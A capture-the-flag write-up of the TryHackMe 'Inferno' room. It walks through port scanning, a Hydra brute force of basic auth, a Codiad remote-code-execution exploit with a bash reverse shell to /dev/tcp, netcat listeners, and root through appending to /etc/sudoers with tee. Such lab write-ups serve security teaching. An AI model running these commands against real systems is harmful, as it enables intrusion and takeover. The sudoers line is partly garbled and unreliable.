 ```yaml
---
layout: post
author: Razor
title: "Tryhackme Inferno"
categories: [Tryhackme, Linux]
tags: [boot2root, medium-box, privilage escalation, cve, web exploitation, enumeration]     # TAG names should always be lowercase
image: assets/thm_inferno/bg.jpeg
toc: true
---
```


## Introduction
This is partical room from Tryhackme entitled Inferno with Medium difficulty. In this room we will learn about exploit HTTP basic auth and IDE Exploit and Linux Privilage escalation . In this case we will find the vulnerability in Codiad (CVE-2017-15689) without further ado, let's just start. link this room [here](https://tryhackme.com/room/inferno)

## Enumeration 

### Nmap 
```
$ nmap -sC -sV 10.10.51.44        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 22:51 WIB
Nmap scan report for 10.10.51.44
Host is up (0.35s latency).
Not shown: 978 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp?
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|_  256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
23/tcp   open  tcpwrapped
25/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                       
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                                                      
|_http-title: Dante's Inferno                                                                                                                                                          
88/tcp   open  tcpwrapped                                                                                                                                                                         
106/tcp  open  pop3pw?                                                                                                                                                                            
110/tcp  open  tcpwrapped                                                                                                                                                                         
389/tcp  open  tcpwrapped                                                                                                                                                                         
443/tcp  open  tcpwrapped                                                                                                                                                                         
464/tcp  open  tcpwrapped                                                                                                                                                                         
636/tcp  open  tcpwrapped
777/tcp  open  tcpwrapped
783/tcp  open  tcpwrapped
808/tcp  open  ccproxy-http?
873/tcp  open  tcpwrapped
1001/tcp open  webpush?
1236/tcp open  tcpwrapped
1300/tcp open  tcpwrapped
2000/tcp open  tcpwrapped
5432/tcp open  tcpwrapped
6346/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.35 seconds
```
Nmap outputs multiple ports, but in this case we're only targeting ports 22 and 80, Now lets take a look port 80.

![img](/assets/thm_inferno/bg_1.jpeg)

I'm using go buster and i found /inferno, Now lets look at this : 

![img](/assets/thm_inferno/bg_2.jpeg)

In this form login i want to use hydra to bruteforce password of admin, lets do this. 

```
$ hydra -l admin -P /home/razor/Documents/Wordlist/rockyou.txt 10.10.51.44 http-get /inferno/ -I -t 64
```
![img](/assets/thm_inferno/bg_3.jpeg)

We did it to get the password from the admin user, now we can login with the admin

![img](/assets/thm_inferno/bg_4.jpeg)

After we login in codiad and post login we can see the page like this. 

![img](/assets/thm_inferno/bg_5.jpeg)

## Foothold

after i did some research, i found CVE-2017-15689 which we can see [here](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit). Now lets exploit this :

![img](/assets/thm_inferno/bg_6.jpeg)

- Here we just need to enter a command like this: `$ sudo python exploit.py http://admin:dante1@10.10.51.44/inferno/ admin dante1 10.2.47.251 1234 linux`
- Seccond Term : `$ echo 'bash -c "bash -i >/dev/tcp/10.2.47.251/1235 0>&1 2>&1"' | nc -lnvp 1234 `
- Third Term : `$ nc -lnvp 1235`

but here there is a problem where bash will exit after a few seconds, so here I use /bin/sh to get a stable shell. After looking around i found .download.dat in home directory dante : `/home/dante/Downloads/.download.dat`

![img](/assets/thm_inferno/bg_7.jpeg)

And there is HEX code, We can Decode to ASCII with xxd : `$ cat hexcred|xxd -r -p`

![img](/assets/thm_inferno/bg_8.jpeg)

Now we found credential for dante, Then we can login with ssh to user dante :

![img](/assets/thm_inferno/bg_9.jpeg)

## Privilage Escalation

In this case we can exploit /usr/bin/tee and getting a root. I got this from [GTFObins](https://gtfobins.github.io/gtfobins/tee/#suid)

Exploit : `$ echo "dante ALL=(ALL) ALL"| sudo tee -a /etc/sudoers o tee -a /etc/sudoers`

Since the dante user has full 'tee' access, we can edit all configuration files to get root

![img](/assets/thm_inferno/bg_10.jpeg)

Now we are root!! 

Happy hacking :D